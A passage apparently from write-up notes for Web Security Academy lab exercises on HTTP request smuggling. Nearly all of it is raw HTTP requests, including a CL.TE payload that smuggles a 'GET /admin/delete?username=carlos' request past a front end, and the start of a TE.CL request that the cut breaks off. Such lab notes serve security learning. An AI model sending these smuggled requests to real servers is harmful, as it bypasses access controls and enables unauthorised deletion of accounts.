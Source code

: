 0

GET /admin HTTP/1.1
Host: localhost
Foo: x


```

Answer:

```
POST / HTTP/1.1
Host: 0a6600530437fdfcc086273c00780093.web-security-academy.net
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 76
Transfer-Encoding: chunked
Connection: close

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Foo: x


```

### Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability


```
POST / HTTP/1.1
Host: 0a51001e036ec66dc008318400cd001d.web-security-academy.net
Cookie: session=zdaG2SWrUcaDv6FrTbj7CXsnLRJ2yjdN
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 4
Transfer-Encoding: chunked
Connection: close
